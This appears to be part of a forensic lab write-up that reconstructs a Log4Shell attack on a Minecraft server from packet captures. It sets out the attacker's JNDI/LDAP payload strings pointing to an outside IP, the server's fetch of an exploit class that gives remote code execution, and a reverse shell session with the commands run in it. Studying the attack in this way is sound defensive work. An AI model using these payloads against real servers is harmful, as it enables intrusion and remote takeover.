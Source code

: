 | 1647007825.291858000 | 4459      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:locale}}`                                                                           |
| 1647007825.304087000 | 4468      | Minecraft Server | leaks the Minecraft Server Java Locale                                        | _LDAP	178	searchRequest(2) `"default locale: en, platform encoding: UTF-8"` baseObject_                                 |
| 1647007825.291858000 | 4459      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:locale}}`                                                                           |
| 1647007825.304087000 | 4468      | Minecraft Server | leaks the Minecraft Server Java Locale                                        | _LDAP	178	searchRequest(2) `"default locale: en, platform encoding: UTF-8"` baseObject_                                 |
| 1647007827.339737000 | 4720      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:hw}}`                                                                               |
| 1647007827.345590000 | 4729      | Minecraft Server | leaks the Minecraft Server hardware info                                      | _LDAP	171	searchRequest(2) `"processors: 2, architecture: amd64-64"` baseObject_                                        |

#### Exercise 3: Payload delivery and RCE

| Timestamp            | Packet No | Actor            | Description                                                                                                                                                               | Payload                                   |
| -------------------- | --------- | ---------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------- |
| 1647007829.339841000 | 5094      | Attacker         | delivers UDP reverse shell JNDI payload that triggers the [javaFactory class loader mechanism](https://docs.oracle.com/javase/jndi/tutorial/beyond/misc/classloader.html) | `${jndi:ldap://18.212.74.161:389/1svssl}` |
| 1647007829.375305000 | 5114      | Minecraft Server | Java exploit is requested via HTTP and results in RCE                                                                                                                     | _GET `/ExecTemplateJDK8.class` HTTP/1.1_  |
| 1647007829.494656000 | 5122      | Minecraft Server | starts the reverse shell session                                                                                                                                          | -                                         |


**Reverse shell session**
| Timestamp            | Packet No | CMD                                               | Response                                                                                                                                                                                                                  |
| -------------------- | --------- | ------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1647007833.493952000 | 5184      | `ls`                                              | `packet no. 5185`: <br>banned-ips.json banned-players.json<br>crash-reports<br>eula.txt<br>libraries<br>logs<br>ops.json<br>server.properties<br>server_1.18.jar<br>usercache.json<br>versions<br>whitelist.json<br>world |
| 1647007836.442065000 | 5198      | `whoami`                                          | `packet no. 5194`:<br> ubuntu                                                                                                                                                                                             |
| 1647007837.329280000 | 5198      | `id`                                              | `packet no. 5199`:<br>uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)                                 |
| 1647007842.255104000 | 5211      | `pwd`                                             | `packet no. 5212`:<br>/home/ubuntu/minecraft_1.8                                                                                                                                                                          |
| 1647007853.571004000 | 5238      | `wget http://www.youtube.com/watch?v=dQw4w9WgXcQ` | `packet no. 5239-6278`                                                                                                                                                                                                    |
| 1647007859.419124000 | 6290      | `exit`                                            | -                                                                                                                                                                                                                         |
    
* [Jadx](https://github.com/skylot/jadx) or any other java decompiler can be used to get the exploits source code, see _**Malware Analysis**_ section for more details.
* Wireshark filter that shows an overview of the LDAP interaction: 
  * `tcp.stream eq 33`
  * `ip.src==18.212.74.161 && udp`
  * `udp.stream eq 12`
